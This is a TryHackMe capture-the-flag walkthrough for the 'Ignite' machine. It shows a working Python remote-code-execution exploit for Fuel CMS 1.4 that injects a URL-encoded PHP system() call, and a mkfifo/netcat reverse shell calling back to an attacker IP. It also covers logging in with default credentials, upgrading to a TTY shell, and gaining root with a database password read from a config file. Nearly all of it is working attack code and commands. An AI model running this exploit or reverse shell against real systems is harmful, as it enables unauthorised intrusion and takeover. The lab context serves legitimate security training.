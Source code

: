 # Ignite Machine Walkthrough
#pentest/tryhackme

## Run nmap and find out some exposed directories, including robots.txt
`robots.txt`

## In robots.txt we see that /fuel exists, which is an CMS
`/fuel`

## We log in with the default password
`admin/admin`

## Find out the version
 `1.4`

## Search in exploit DB for a vulnerability in this version and fetch the exploit
```python
import requests
import urllib

url = "http://10.10.60.210"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
        xxxx = input('cmd:')
        burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.parse.quote(xxxx)+"%27%29%2b%27"
        r = requests.get(burp0_url)

        html = "<!DOCTYPE html>"
        htmlcharset = r.text.find(html)

        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

        print(r.text[0:dup])
```

## Run the script to get remote execution with the permissions os var-www and create a reverse shell

```sh
# Run this in your local machine
nc -nlvp 1337

# Run this in the python script
rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.8.26.70 1337 >/tmp/f
```

## We now have a raw shell but since it’s not running in a TTY we still cannot get the root flag; we need a full terminal session in order use certain commands such as su, sudo, vi, etc.
To do this we are going to use python to  [launch a second process inside of a TTY](https://pen-testing.sans.org/blog/2017/02/01/pen-test-poster-white-board-python-raw-shell-terminal) .

`python -c 'import pty; pty.spawn("/bin/bash")'`

## After that we can get the user flag:
```bash 
$ whoami
$ cd /home/www-data
$ cat flag.txt
```

## Escalating to root
![](Ignite%20Machine%20Walkthrough/1AB6FE5B-43D6-42F2-A569-5E80D4D286FF.png)

```bash
$ find / -name database.php 2>/dev/null
$ cat /var/www/html/fuel/application/config/database.php

$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',

$ su - root
Password: mememe

$ root@ubuntu:~# ls
root.txt
$ cat root.txt
```

